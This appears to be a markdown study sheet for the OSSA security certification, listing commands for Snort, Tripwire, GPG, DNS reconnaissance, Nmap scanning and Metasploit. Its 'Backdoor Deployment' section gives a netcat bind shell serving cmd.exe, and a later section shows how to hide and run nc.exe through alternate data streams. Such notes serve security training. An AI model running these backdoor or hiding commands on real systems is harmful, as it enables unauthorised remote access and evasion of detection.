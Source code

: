 # OSSA Summary

## Description
Useful notes and summaries for the Organisational System Security Analyst (OSSA) Certification

## Table of Contents
```toc
```

## Commands
### Analysing Wireshark Files
**Filters:**
- Source IP address - `ip.src`
- Destination IP address - `ip.dst`

**Unencrypted network traffic:**
- FTP
- HTTP
- Telnet

### Network-Based IDS Configuration (Snort)
- Starting snort:
```
snort -c /etc/snort/snort.conf
```

- View all Snort logs:
```
tail -f /var/log/snort/alert
```

- Check the latest Snort log:
	- `<filename>` is the desired log file
```
more /var/log/snort/<filename>
```

### File Integrity Checker and Host-Based IDS (Tripwire)
- Take a snapshot of the system:
```
tripwire --init
```

- Check for any changes in the file system:
```
tripwire --check
```

- View Tripwire report:
```
twprint -m r --twrfile /var/lib/tripwire/report/<filename>
```

- Policies can be edited on the Tripwire Policy text file: `twpol.txt`

- Update the Tripwire database whenever `twpol.txt` was edited:
```
tripwire --update --twrfile /var/lib/tripwire/report/<filename>
```

### Cryptography (GPG)
- Generate a new keypair:
```
gpg --gen-key
```

- Import third-party public keys:
```
gpg --import <filename>
```

- View the imported keys:
```
gpg --fingerprint
```

- Sign the imported key to show that verification of the public keys was done:
```
gpg --sign-key <keyid>
```

- Verify the signature of the file:
```
gpg --verify <public_signature> <filename_to_check> 
```


### DNS Reconnaissance
- Find IP address of server:
```
dig securitystartshere.org
```

**dig options:**
- `mx` - find **mail exchanger** records
- `ns` - find **name server** records 
- `soa` - find **SOA (Start of Authority)** 
	- stores information about the name of the server, zone administrator, current version of zone data file etc.

**Perform a zone transfer of the pod's DNS internal server**
```
dig @10.50.6.1 pod6.com axfr
```

### Port Scanning (Nmap)
- **Ping Sweep:**
```
nmap -sP -n 10.50.6.0/24
```

- **SYN Stealth Scan:**
```
nmap -sS <ip address> 
```

- **Suggested SYN Scan:**
```
nmap -sS -n -Pn -vv -p<target port range> -g<source port range> <target IP address> --max-retries=<value> --min-parallelism<value> --max-rtt-timeout=<value>ms
```

- **ACK Scan:**
```
nmap -sA <ip adress>
```

- **OS Version Detection:**
```
nmap -sV -Pn -n -p80,135-139,445 -vv 10.50.6.3
```

### ARP Spoofing
- Find the internet gateway IP address:
```
route -n
ipconfig (Windows)
```

- View ARP cache:
```
arp -a
```

### Exploitation (Metasploit)
- View list of exploit codes:
```
show exploits
```

- Show options supported for an exploit:
```
show options
```

- Set `RHOST`:
```
set RHOST <ip address>
```

- Set `TARGET` option:
```
set TARGET <option number>
```

- Show all targets support for the exploit
```
show targets
```

- Show all payloads offered for the exploit
```
show payloads
```

- Execute the exploit:
```
exploit
```

### Backdoor Deployment
**Stations:**
- station1 - Windows Workstation
- station2 - Linux OS

**Commands:**
- Run netcat on station1:
```
nc -l -p 48800 -e <windows directory name>\system32\cmd.exe
```

- Run netcat on station2:
```
nc <ip address> 48800
```

### File Hiding with Alternate Data Streams
- Using the `type` command to stream (hide) a file:
```
type c:\6\nc.exe . c:\hobbit.txt:hidenc.exe
```

- To run the streamed (hidden) executable:
```
wmic process call create c:\<full file path>:hidenc.exe
```

- Streaming (hiding) a text file:
```
notepad c:\<full file path>:hidden.txt
```

### File Hiding with Steganography
- Using S-Tools
- Test all encryption algorithms to reveal hidden password-protected files

